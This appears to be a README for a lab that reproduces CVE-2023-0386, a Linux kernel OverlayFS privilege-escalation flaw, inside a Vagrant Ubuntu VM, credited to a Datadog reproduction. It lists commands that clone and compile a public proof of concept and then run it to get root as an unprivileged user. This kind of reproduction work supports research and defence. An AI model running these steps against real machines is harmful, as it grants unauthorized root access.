

# CVE-2023-0386

This folder contains a virtual machine and instructions to reproduce [CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386), a vulnerability in the Linux kernel’s OverlayFS subsystem that allows an unprivileged user to escalate their privileges to root.

## How to reproduce

* Start the virtual machine (based on Ubuntu 22.04.1, kernel 5.15.0-57-generic):

```
vagrant up
```

* SSH to the machine as an unprivileged user:

```
vagrant ssh --command "sudo su john -c 'cd; bash'"
```

```bash
john@ubuntu-jammy:~$ id
uid=1002(john) gid=1002(john) groups=1002(john)
```

* Clone and compile the [proof of concept repository](https://github.com/xkaneiki/CVE-2023-0386/)

```
git clone https://github.com/xkaneiki/CVE-2023-0386.git
cd CVE-2023-0386
git checkout c4c65cefca1365c807c397e953d048506f3de195
make all
```

* Run the following commands to exploit the vulnerability and escalate to root:

```
./fuse ./ovlcap/lower ./gc >/dev/null 2>&1 &
./exp
```



## Credits

Proof-of-concept: https://github.com/xkaneiki/CVE-2023-0386/
Reproduction for Datadog: Ryan Simon